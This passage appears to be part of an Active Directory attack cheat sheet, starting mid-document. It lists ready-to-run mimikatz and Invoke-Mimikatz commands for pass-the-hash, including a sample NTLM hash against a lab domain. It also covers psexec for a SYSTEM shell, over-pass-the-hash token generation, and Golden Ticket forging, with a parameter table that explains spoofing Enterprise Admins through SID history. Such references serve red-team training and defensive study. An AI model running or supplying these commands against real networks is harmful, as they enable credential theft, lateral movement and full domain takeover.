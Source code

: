 ```batch
:: mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::pth /domain:[COMPUTER_FQDN] /user:Administrator /ntlm:[NTLM_HASH] /run:powershell.exe
mimikatz # sekurlsa::pth /domain:COMPUTER1.cyberlab.cybercorp.local /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe
```

and the open a SYSTEM shell by `psexec`:

```batch
psexec.exe \\COMPUTER1 cmd
```

## Over-Pass-the-Hash

"Over-Pass-the-Hash" generate tokens from hashes (needs local administrator rights):

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::pth /user:Administrator /domain:cyberlab.cybercorp.local /ntlm:[NTLM_HASH] /run:powershell.exe"'
```

```batch
:: mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::pth /user:Administrator /domain:cyberlab.cybercorp.local /ntlm:[NTLM_HASH] /run:powershell.exe
```

## Golden Ticket

Generate a TGT encripted with krbtgt hash valid for every user:

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::golden /user:[USER] /domain:[DOMAIN_FQDN] /sid:[DOMAIN_SID] /krbtgt:[KRBTGT_NTLM_HASH] /id:[USER_RID] /groups:[GROUP_RID] /startoffset:[MINUTES_START_AVAILABILITY] /endin:[MINUTES_STOP_AVAILABILITY] /renewmax:[MINUTES_LIFETIME_WITH_RENEWAL] /ptt"'
```

```batch
:: mimikatz.exe
mimikatz # kerberos::golden /user:[USER] /domain:[DOMAIN_FQDN] /sid:[DOMAIN_SID] /krbtgt:[KRBTGT_NTLM_HASH] /id:[USER_RID] /groups:[GROUP_RID] /startoffset:[MINUTES_START_AVAILABILITY] /endin:[MINUTES_STOP_AVAILABILITY] /renewmax:[MINUTES_LIFETIME_WITH_RENEWAL] /ptt
```

**Golden Ticket Parameters**

| Parameter	| Optional| Description |
| ---- | ---- | ---- |
| **/user**	| No    | Username for which the TGT is generated |
| **/domain**	| No	| Domain FQDN |
| **/sid**	| No	| SID of the domain |
| **/krbtgt**	| No	| NTLM (RC4) hash of the krbtgt account. Use **/aes128** and **/aes256** for using AES keys |
| **/sids**	| Yes	| Additional SIDs for accounts/groups in the AD forest with rights you want the ticket to spoof. Typically, this will be the Enterprise Admins group for the root domain “S-1-5-21-[DOMAIN_ID]-519”. This parameter adds the provided SIDs to the SID History parameter. |
| /id		| Yes	| User RID (default 500) |
| /groups	| Yes	| Group RID (default 513 512 520 518 519) |
| /startoffset	| Yes	| When the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future |